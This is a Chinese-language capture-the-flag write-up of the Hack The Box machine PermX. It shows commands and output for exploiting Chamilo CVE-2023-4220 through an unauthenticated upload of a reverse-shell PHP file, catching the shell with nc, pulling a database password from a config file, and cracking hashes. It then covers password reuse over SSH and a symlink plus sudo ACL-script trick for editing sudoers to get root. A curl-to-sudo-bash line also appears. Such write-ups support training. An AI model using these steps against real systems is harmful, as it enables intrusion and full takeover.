

---
tags:
  - HTB/Easy
  - HTB/Linux
---

## Summary

...

### Relevant Skills

- nmap
- 子域枚举
- CVE
- sudo提权

### Attack Path Overview

{ width='500' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

80端口是个网页`permx.htb`，而根据脚本的扫描结果，有个`lms`子域，先看这个吧。


### 子域：lms

根据`http://lms.permx.htb/robots.txt`，访问`documentation/`发现这是`Chamilo 1.11`。接着根据页面上方的`Changelog`标签页发现具体版本号：`Chamilo 1.11.24`。

Google it，发现： <https://www.mageni.net/vulnerability/chamilo-lms-111x-11124-multiple-vulnerabilities-126550>


## Initial Access

### PoC (CVE-2023-4220)

> <https://starlabs.sg/advisories/23/23-4220/>

根据上面文章的PoC，上传文件然后访问`http://lms.permx.htb//main/inc/lib/javascript/bigupload/files/reverse-shell.php`，获得`www-data`用户的反弹shell。然后升级tty：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX]
└─$ curl -F 'bigUploadFile=@reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.                                              

┌──(kali㉿kalik)-[~/HTB/PermX]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.23] 33388
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 03:04:24 up 5 min,  0 users,  load average: 0.92, 0.70, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@permx:/$ ^Z
zsh: suspended  nc -lvnp 1234
```

### 横向

升级tty后稍微收集一下信息。

- 有个本地端口3306
- 有目标用户mtz和mysql用户
- 没有sudo执行
- 没有可利用SUID

```bash
www-data@permx:/$ ss -anotpl
State                Recv-Q               Send-Q                             Local Address:Port                             Peer Address:Port              Process              
LISTEN               0                    80                                     127.0.0.1:3306                                  0.0.0.0:*                                      
LISTEN               0                    4096                               127.0.0.53%lo:53                                    0.0.0.0:*                                      
LISTEN               0                    128                                      0.0.0.0:22                                    0.0.0.0:*                                      
LISTEN               0                    128                                         [::]:22                                       [::]:*                                      
LISTEN               0                    511                                            *:80                                          *:*                                      
www-data@permx:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...SNIP...>
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```


#### 配置文件找到MySQL密码

移动到网站项目文件夹，看到config文件是`/app/config/configuration.php`，结果在里面找到mysql的密码：
```bash
www-data@permx:/var/www/chamilo$ cat cli-config.php 
<?php
<...SNIP...>
require_once __DIR__.'/vendor/autoload.php';
//require_once __DIR__.'/main/inc/lib/api.lib.php';
$configurationFile = __DIR__.'/app/config/configuration.php';
<SNIP>

www-data@permx:/var/www/chamilo$ grep pass app/config/configuration.php | fgrep -v '//'
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['password_encryption'] = 'bcrypt';
/*$_configuration['password_requirements'] = [
    'force_different_password' => false,
        'wget_password' => '',
$_configuration['auth_password_links'] = [
                'show_password_field' => false,
                'extra_link' => '<h4>Change!</h4><a href="www.example.com">Wachtwoord aanpassen</span></a>'
                'show_password_field' => true,
                'extra_link' => '<h4>Change!</h4><a href="www.example.com">Wachtwoord aanpassen</span></a>'
                    'status' => 'passed',
```

进入数据库，稍微探索一下获得两个加密凭据信息：
```
www-data@permx:/var/www/chamilo$ mysql -u chamilo -p03F6lY3uXAP2bkW8


MariaDB [chamilo]> select username,lastname,firstname, password from user;
+----------+-----------+-----------+--------------------------------------------------------------+
| username | lastname  | firstname | password                                                     |
+----------+-----------+-----------+--------------------------------------------------------------+
| admin    | Miller    | Davis     | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
| anon     | Anonymous | Joe       | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----------+-----------+-----------+--------------------------------------------------------------+
```

复制到本地整理一下准备暴破：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ cat db-creds.txt | grep 2y | awk -F '|' '{OFS=":";print $2,$3}' | tr -d ' ' > db-creds-trim.txt

┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ cat db-creds-trim.txt 
admin:$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra
anon:$2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS

┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ john db-creds-trim.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

……运行了一阵子，暴破无果。感觉可能是兔子洞。

#### 密码重用拿下mtz用户

想想前面的密码一拿到的时候就直接“被引导”进入MySQL了。该试一下密码重用的。

尝试一下`mtz:03F6lY3uXAP2bkW8`，SSH成功登入：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ ssh mtz@10.10.11.23           
<...SNIP...>
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
<...SNIP...>
Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
```

## flag: user

```bash
mtz@permx:~$ ls
user.txt
mtz@permx:~$ cat user.txt 
a9ff<...SNIP...>9206
```


## Privilege Escalation

基础信息收集一把梭：

- 用户家目录的隐藏文件：无
- `sudo -l`：`(ALL : ALL) NOPASSWD: /opt/acl.sh`
- SUID：无特别发现
- cron：`crontab -l`，`ls /etc/cron*`，无特别发现


有个sudo免密执行，确认一下其脚本内容。以及当前用户无权限修改该脚本：
```bash
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

mtz@permx:~$ ls -iahl /opt/acl.sh
1091 -rwxr-xr-x 1 root root 419 Jun  5 11:58 /opt/acl.sh
```

总的来说，该脚本用`setfacl`命令为指定的单个文件创建ACL，文件必须在mtz的家目录下，且文件名不能包含`..`以防止目录穿越。

那么可以尝试创建软链接？可以想到几个利用方式，比如为`passwd`或`sudoers`文件分配修改权。

为了尽量减少对当前机器环境的破坏，本来想直接指定`root.txt`，不过不知道为什么失败：
```bash
mtz@permx:~/.cache$ ln -s /root/root.txt rt.txt
mtz@permx:~/.cache$ sudo /opt/acl.sh mtz r /home/mtz/.cache/rt.txt 
setfacl: /home/mtz/.cache/rt.txt: Operation not permitted
```

那直接粗暴的，把`sudoers`里的命令改成`/bin/bash`，然后sudo提权：
```bash
mtz@permx:~/.cache$ ln -s / rt
mtz@permx:~/.cache$ ls -iahl
total 8.0K
352506 drwx------ 2 mtz mtz 4.0K Jul  7 03:51 .
131073 drwxr-x--- 5 mtz mtz 4.0K Jul  7 03:49 ..
262372 -rw-r--r-- 1 mtz mtz    0 May 31 11:14 motd.legal-displayed
266748 lrwxrwxrwx 1 mtz mtz    1 Jul  7 03:51 rt -> /

mtz@permx:~/.cache$ ls -iahl /etc/sudoers
721 -r--r----- 1 root root 1.7K Jul  7 03:51 /etc/sudoers
mtz@permx:~/.cache$ sudo /opt/acl.sh mtz rwx /home/mtz/.cache/rt/etc/sudoers
mtz@permx:~/.cache$ ls -iahl /etc/sudoers
721 -r--rwx---+ 1 root root 1.7K Jul  7 03:51 /etc/sudoers
mtz@permx:~/.cache$ vim /etc/sudoers
mtz@permx:~/.cache$ sudo /bin/bash
root@permx:/home/mtz/.cache#
```
- 可以看到ACL被修改的文件权限后面多了个加号：`-r--rwx---+`。后来查了下这表示该文件有扩展的ACL。
- 中间还失败了一下，感觉有对`sudoers`文件有恢复机制


## flag: root

```bash
root@permx:/home/mtz/.cache# cd 
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt 
7060e<...SNIP...>1b55
```


---

## 总结·后记

2024/07/07

……密码重用不要忘。


### 作者预想的root路径

```bash
root@permx:~# cat reset.sh 
#!/bin/bash

/usr/bin/cp /root/backup/passwd /etc/passwd
/usr/bin/cp /root/backup/shadow /etc/shadow
/usr/bin/cp /root/backup/sudoers /etc/sudoers
/usr/bin/cp /root/backup/crontab /etc/crontab
/usr/bin/setfacl -b /root/root.txt /etc/passwd /etc/shadow /etc/crontab /etc/sudoers

/usr/bin/find /home/mtz -type l ! -name "user.txt" -mmin -3 -exec rm {} \;

root@permx:~# crontab -l
<...SNIP...>
*/3 * * * * /root/reset.sh
```


### 文件权限之扩展ACL

查了下这个扩展ACL，原来可以用`getfacl`命令查看具体内容：
```bash
mtz@permx:~/.cache$ getfacl /etc/sudoers
getfacl: Removing leading '/' from absolute path names
# file: etc/sudoers
# owner: root
# group: root
user::r--
user:mtz:rwx
group::r--
mask::rwx
other::---
```
- 掩码条目（mask）定义了对文件的最大允许权限。